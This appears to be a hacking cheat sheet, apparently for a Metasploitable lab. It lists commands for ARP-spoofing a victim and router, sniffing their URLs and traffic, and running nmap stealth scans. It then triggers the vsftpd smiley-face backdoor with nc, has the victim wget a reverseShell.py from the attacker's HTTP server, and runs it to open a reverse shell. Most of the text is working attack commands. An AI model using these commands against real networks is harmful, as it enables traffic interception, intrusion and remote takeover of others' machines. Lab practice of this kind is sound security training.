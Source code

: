 - dsniff tool contains arpspoof utility
```bash apt install dsniff```

- allow ip forwarding till next restart
```bash echo 1 > /proc/sys/net/ipv4/ip_forward```

- arpspoof to spoof both the router and the victim
```bash arpspoof -i eth0 -t <VICTIM_IP> <ROUTER_IP>```
```bash arpspoof -i eth0 -t <ROUTER_IP> <VICTIM_IP>```

- intercept urls from spoofed communication
```bash urlsnarf -i eth0```

- wireshark filter expressions
```wireshark
# WS Filter expression structure
[Protocol].[header/field] [operator: +,==,!=] [value]
```
```wireshark ip.src == 192.168.1.101```
```wireshark tcp contains login```
```wireshark ip.src == 192.168.1.101 | ip.dst == 192.168.1.101```

- tcpdump
```bash tcpdump -i <interface> port <port> -w <file.pcap>```

- nmap tcp synscan
```bash nmap -sS <ip or cidr>```
- nmap tcp finscan
```bash nmap -sF <ip or cidr>```
- nmap tcp xmasscan
```bash nmap -sX <ip or cidr>```

- connect to vulnerable metasploit service
```bash 
nc <Metasploitable IP address> 21
# When process opened
user Hacker:)
pass invalid
```

- on a different shell and you'll get full prompt
```bash nc <Metasploitable IP address> 6200```

- start python local server from which the metaspolitable server will able to wget the reverseShell.py file
```bash python3 -m http.server 8080```

- wget the file from metasploitable after connecting with nc
```bash wget <Kali IP>:8080/reverseShell.py```

- start the shellServer on the attacker
```bash python3 shellServer.py```

- start the reverseShell on the victim in the background
```bash python reverseShell.py <Kali IP address> &```

- execute commands on attacker. voila!